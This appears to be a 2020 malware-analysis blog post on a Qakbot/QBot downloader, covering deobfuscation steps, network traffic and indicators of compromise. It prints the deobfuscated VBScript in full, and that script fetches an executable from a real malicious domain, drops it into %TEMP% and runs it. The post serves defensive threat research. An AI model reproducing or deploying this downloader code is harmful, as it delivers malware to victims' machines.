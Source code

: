 ```yaml
---
title: Qakbot/QBot Downloader
description: Analysis of a Qakbot/QBot downloader.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - qakbot
  - qbot
  - downloader
  - malware
  - analysis
categories: malware
date: '2020-02-12'
lastmod: '2020-02-12'
draft: false
---
```


__Situation:__

I came across an interesting obfuscated sample on `Any.Run`.

__Metadata:__

- `db2614353dc6c29dbe323dbeafe6b781`

__Analysis:__

The sample has a ton of comments making the file size total around `~4mb`.

This was easily parsed out with `sed 's/^\x27//'`.

The next step is to idenify where code is evaluated which was here `exECuTeglOBal sHLW(iDxY)`.

Changed this to `WScript.Echo` then also had to backtrack for a variable which defined before the evaluation.

This variable contained an array of strings which contain object names and the downloader URL, User-Agent etc.

I also had to comment out the part which causes it to sleep for `30` seconds.

Below is the script after everything has been put into a readable format.

```js
Wscript.Sleep 30000
on error resume next
set a = WScript.CreateObject("WScript.Shell")
set b = WScript.CreateObject("Scripting.FileSystemObject")
f = a.ExpandEnvironmentStrings("%TEMP%") & "\x.url"
set c = a.CreateShortcut(f)
c.TargetPath = "an"
c.Save
if b.FileExists(f) = false Then
	e = a.ExpandEnvironmentStrings("%TEMP%") & "\ColorPick.exe"
	Call u
	sub u
		set d = createobject("MSXML2.ServerXMLHTTP.6.0")
		set w = createobject("Adodb.Stream")
		d.Open "GET", "http://mostasharanetalim.ir/wp-content/uploads/2020/02/recent/444444.png", False
		d.setRequestHeader "User-Agent", "HanamiRuby"
		d.Send
		with w
			.type=1
			.open
			.write d.responseBody
			.savetofile e, 2
		end with
	end sub
	WScript.Sleep 60000
	a.Exec(e)
end if
```

__Network Traffic:__
```http
GET /wp-content/uploads/2020/02/recent/444444.png HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-us
User-Agent: HanamiRuby
Host: mostasharanetalim.ir
```

The payload named ColorPick.exe `Qakbot/QBot` will be dropped to the `%TEMP%` folder.

__IOCS:__

```http
db2614353dc6c29dbe323dbeafe6b781
hxxp://mostasharanetalim[.]ir/wp-content/uploads/2020/02/recent/444444[.]png
User-Agent: HanamiRuby
```

__References:__
- [Samples](/samples/2020-02-12-qakbot-downloader.zip)
- [Any.Run](https://app.any.run/tasks/d93b5d16-b34d-4f9f-ae35-6e5feabfb4e3/)
- [VirusTotal](https://www.virustotal.com/gui/file/557daae4c867c0f543cdfda80a85dd4e4dfd268e11861739b0654cbf09c06b31/detection)
- [Twitter](https://twitter.com/c3rb3ru5d3d53c/status/1227767571547590657)
